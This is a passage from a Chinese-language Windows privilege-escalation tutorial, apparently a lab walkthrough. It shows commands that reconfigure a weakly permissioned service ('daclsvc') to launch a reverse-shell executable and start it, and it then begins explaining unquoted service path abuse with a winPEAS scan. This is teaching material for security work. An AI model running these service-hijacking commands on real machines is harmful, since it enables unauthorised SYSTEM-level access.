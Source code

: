 ![image-20210706140232306](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-139152d6875269e01aa654775ef297ea8dd6ff04.png)

##### 5. 检查服务的当前配置：

```php
 sc qc daclsvc
```

![image-20210706140317733](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-aa818943154e36901278d4b9b17116b14cb7b847.png)

##### 6.重新配置服务以使用我们的反向壳可执行：

```php
sc config daclsvc binpath=  "\"C:\Users\user\Desktop\a002.exe\""
```

![image-20210706140729405](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-85101f73b065d8385fab82306c0a9f4bd0774c83.png)

##### 7.启动服务触发漏洞进行反弹shell

```php
net start daclsvc
```

![image-20210706140709122](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-28606f3315a3b428e665e353b34bd9e6b08046e4.png)

![image-20210706140511506](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-19e44bb0a2f1b7736786bd405c71df0cfa085aa6.png)

### 2. 未引用的服务路径

#### 前言

Windows中的可执行项无需使用扩展即可运行(例如，"whoami.exe"可以通过键入"whoami"来运行)。

一些可执行者采取参数，由空间分开，例如一些程序.exe arg1 arg2 arg3.。。

当使用未引用且包含空格的绝对路径时，此行为会导致歧义的发生

举例以下未引用的路径：

```php
C:\Program Files\Some Dir\SomeProgram.exe
```

表面来看，这显然运行SomeProgram.exe

对 Windows来说，C:\\Program 可能是可执行的，有两个参数："Files\\Some" and "Dir\\ SomeProgram.exe"

Windows 通过依次检查每个可能性来解决此歧义。

如果我们可以在实际可执行之前攻击 Windows 检查的位置，我们可以欺骗服务执行它。

#### 实操

##### 1.运行winPEAS以检查服务配置错误：

```php
.\winPEASany.exe quiet servicesinfo
```
